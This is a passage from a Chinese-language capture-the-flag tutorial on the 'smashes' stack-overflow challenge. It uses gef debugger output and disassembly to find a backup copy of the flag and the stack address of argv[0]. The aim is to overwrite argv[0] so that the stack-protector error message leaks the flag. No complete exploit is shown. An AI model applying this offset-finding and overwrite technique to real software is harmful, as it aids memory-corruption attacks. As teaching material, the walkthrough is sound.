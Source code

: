 可以看出我們讀入的 2222 已經覆蓋了 0x600d20 處的 flag，但是我們在內存的 0x400d20 處仍然找到了這個flag的備份，所以我們還是可以將其輸出。這裏我們已經確定了 flag 的地址。

#### 確定偏移

下面，我們確定 argv[0] 距離讀取的字符串的偏移。

首先下斷點在 main 函數入口處，如下

```asm
gef➤  b *0x00000000004006D0
Breakpoint 1 at 0x4006d0
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 

Breakpoint 1, 0x00000000004006d0 in ?? ()
 code:i386:x86-64 ]────
     0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
     0x4006c6 <_IO_gets@plt+6> push   0x9
     0x4006cb <_IO_gets@plt+11> jmp    0x400620
 →   0x4006d0                  sub    rsp, 0x8
     0x4006d4                  mov    rdi, QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
     0x4006db                  xor    esi, esi
     0x4006dd                  call   0x400660 <setbuf@plt>
──────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb78', 'l8']
8
0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax	 ← $rsp
0x00007fffffffdb80│+0x08: 0x0000000000000000
0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"
0x00007fffffffdb90│+0x18: 0x0000000100000000
0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8
0x00007fffffffdba0│+0x28: 0x0000000000000000
0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3
0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp
──────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x4006d0 → sub rsp, 0x8
[#1] 0x7ffff7a2d830 → Name: __libc_start_main(main=0x4006d0, argc=0x1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48)
---Type <return> to continue, or q <return> to quit---
[#2] 0x400717 → hlt 

```

可以看出 0x00007fffffffe00b 指向程序名，其自然就是 argv[0]，所以我們修改的內容就是這個地址。同時0x00007fffffffdc58 處保留着該地址，所以我們真正需要的地址是 0x00007fffffffdc58。

此外，根據彙編代碼

```asm
.text:00000000004007E0                 push    rbp
.text:00000000004007E1                 mov     esi, offset aHelloWhatSYour ; "Hello!\nWhat's your name? "
.text:00000000004007E6                 mov     edi, 1
.text:00000000004007EB                 push    rbx
.text:00000000004007EC                 sub     rsp, 118h
.text:00000000004007F3                 mov     rax, fs:28h
.text:00000000004007FC                 mov     [rsp+128h+var_20], rax
.text:0000000000400804                 xor     eax, eax
.text:0000000000400806                 call    ___printf_chk
.text:000000000040080B                 mov     rdi, rsp
.text:000000000040080E                 call    __IO_gets
```
